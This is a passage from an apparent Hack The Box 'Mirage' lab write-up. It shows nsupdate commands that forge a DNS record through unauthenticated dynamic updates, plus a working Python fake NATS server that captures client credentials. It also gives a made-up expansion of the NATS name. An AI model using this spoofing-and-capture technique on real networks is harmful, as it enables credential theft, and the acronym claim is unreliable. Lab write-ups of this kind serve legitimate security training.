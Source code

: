 The NFS share contained PDF files that revealed critical intelligence about the infrastructure, including the existence of a NATS service running on `nats-svc.mirage.htb`.

## Initial Access Vector: DNS Spoofing and NATS Interception

### Understanding the NATS Service
The PDF files indicated that a NATS (Neural Autonomic Transport System) messaging service was running on `nats-svc.mirage.htb` on port 4222. NATS is a lightweight messaging system commonly used in distributed systems.

### DNS Spoofing Attack
The DNS server was found to accept unauthenticated dynamic updates, allowing for DNS record manipulation:

**Why DNS Spoofing Works:**
This attack succeeds because the DNS server accepts dynamic updates without authentication - a common misconfiguration in Active Directory-integrated DNS services. When configured insecurely, the DNS zone allows any client to send update requests without verifying their identity.

```bash
# Use nsupdate to inject forged DNS record
exegol-htb Mirage : nsupdate
exegol-htb Mirage : server 10.10.11.78
exegol-htb Mirage : update add nats-svc.mirage.htb 3600 A 10.10.15.x
exegol-htb Mirage : send
```

### Rogue NATS Server Setup
To intercept credentials, a fake NATS server was deployed to capture authentication attempts:

```python
#!/usr/bin/env python3
import socket

HOST = "0.0.0.0"
PORT = 4222

print(f"[+] Fake NATS Server listening on {HOST}:{PORT}")
s = socket.socket()
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind((HOST, PORT))
s.listen(5)

while True:
    try:
        client, addr = s.accept()
        print(f"[+] Connection from {addr}")
        
        # Send fake INFO - required for NATS client handshake
        info = b'INFO {"server_id":"FAKE","version":"2.11.0","auth_required":true}\r\n'
        client.sendall(info)
        
        # Read potential credentials
        data = client.recv(2048)
        print("[>] Received:")
        print(data.decode(errors='replace'))
        
        client.close()
    except Exception as e:
        print(f"[!] Error: {e}")
```
